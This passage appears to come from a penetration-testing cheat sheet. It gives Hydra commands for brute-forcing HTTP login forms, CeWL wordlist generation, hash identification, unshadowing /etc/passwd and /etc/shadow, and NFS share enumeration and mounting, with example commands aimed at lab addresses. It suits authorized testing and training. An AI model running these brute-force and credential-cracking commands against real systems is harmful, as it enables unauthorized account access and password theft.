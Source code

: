#### Hydra bruteforce HTTP login
Login using Burp or check in developers tools to check the request for the required information! You need to get the username/password/login parameter and the error message!

https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/
```
hydra -L <USERNAMEFILE> -P <PASSWORDFILE> <IP> http-post-form "<LOGINPAGE>:<COOKIES FROM BURP AND SET ^USER^ AND ^PASS^>:<ERROR MESSAGE FAILED LOGIN>"

#EXAMPLE hydra -L usernames.txt -P passwords.txt 192.168.2.62 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed"

#EXAMPLE hydra -l admin -P /opt/SecLists/Passwords/xato-net-10-million-passwords-100.txt 10.10.175.0 http-post-form '/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=u8hdjDohYmqfI8o0z7Cev4b1u0jLmv9dNA9NS95wDsZeMYw6zBFeyhiLx1QuOsZ%2FXV%2Fo%2BrCdXSC4Y7%2FueaRnmboaQQ9KZQWLME84zysowmYTAW8Kea1%2Bp7phoEwMiICbLwPPteDEYl7z6nobm8x1Mb2hMDiTpDJhracgmTh%2BJwP1Rqqt&__EVENTVALIDATION=QJmkftZnDEcQIPsstxYKnQBDsulZLsB0kmrbMa4BPzAc%2FMEDChrOmztni5OWBx83r2xGNndCAgw6wJ%2F%2FoAzYtZEcyRWC%2FaPyUR5iWSO0V8%2FIodobow1OxiuoD9uZVnVO8tcQZr3NWYjFcOVxYg5WAWvPyezvfcBk2oxUdZwsutPATiKB&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:failed'
```

#### CEWL - Create a wordlist 
```
cewl <URL> -m <MIN CHARS> -w <FILE>.txt
```

#### Identify hashes
```
hashid <HAS>
hash-identiefier
```

#### Combine /etc/passwd and /etc/shadow with unshadow
```
Unshadow <PASSWD FILE> <SHADOW FILE> > unshadow.txt
```

## NFS Shares
Portmapper and RPCBind run on TCP port 111

#### Enumerations
```
rpcinfo <IP>
sudo nmap -sSUC -p111 <IP> --script *nfs*
```

#### Mount shares
```
showmount -e <IP>
sudo mount -o nolock <IP>:/<SHARE> <MOUNT LOCATION>
sudo mount -t cifs -o port=<PORT> //<IP>/<SHARE> -o username=<USERNAME>,password=<PASSWORD> /mnt/<FOLDER>
```
